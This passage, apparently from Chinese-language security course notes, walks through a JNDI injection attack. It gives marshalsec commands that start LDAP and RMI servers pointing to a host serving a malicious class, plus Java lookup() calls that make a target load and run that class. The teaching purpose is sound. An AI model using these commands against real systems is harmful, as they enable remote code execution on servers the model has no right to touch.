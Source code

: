 
##### 3. 使用利用工具生成调用协议（rmi,ldap）  
   通过marshalsec启动RMI/LDAP服务，指向恶意class文件的URL：
   ```bash
   # 启动LDAP服务，指向存放恶意类的HTTP地址
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test
   # 启动RMI服务，指向存放恶意类的HTTP地址
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://47.243.50.47/TestJndi
   ```

   ![cd62b339081eecb9ae96417200f3607e](037安全开发.assets/cd62b339081eecb9ae96417200f3607e.png)


##### 4. 使用远程调用  
   目标系统调用`lookup()`方法，连接marshalsec启动的服务，加载并执行恶意类：
   ```java
   // 调用LDAP服务加载Test类
   new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/Test");
   // 调用RMI服务加载Test类
   new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/Test");
   ```

   ![541c92d95bc510cf28d82e81f67f2720](037安全开发.assets/541c92d95bc510cf28d82e81f67f2720.png)

   ![eef835d3d9d32f4b87e0762d330467c9](037安全开发.assets/eef835d3d9d32f4b87e0762d330467c9.png)
